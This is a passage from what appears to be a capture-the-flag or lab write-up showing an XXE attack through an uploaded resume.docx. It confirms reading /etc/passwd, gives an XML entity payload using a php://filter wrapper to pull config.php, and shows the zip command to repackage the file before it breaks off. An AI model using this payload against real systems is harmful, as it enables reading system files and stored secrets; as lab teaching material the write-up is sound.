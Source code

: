 ![Pasted image 20250430162629.png](../../IMAGES/Pasted%20image%2020250430162629.png)

There we go, as we can see, we are able to read `/etc/passwd`, let's modify the contents to read `config.php`, we need to unzip the `resume.docx` again, and change the payload to this one:

```xml
<!DOCTYPE test [<!ENTITY test SYSTEM 'php://filter/convert.base64-encode/resource=config.php'>]>
```

![Pasted image 20250430163216.png](../../IMAGES/Pasted%20image%2020250430163216.png)

Let's zip it again:

```
zip resume.docx word/document.xml
```

If we upload it:

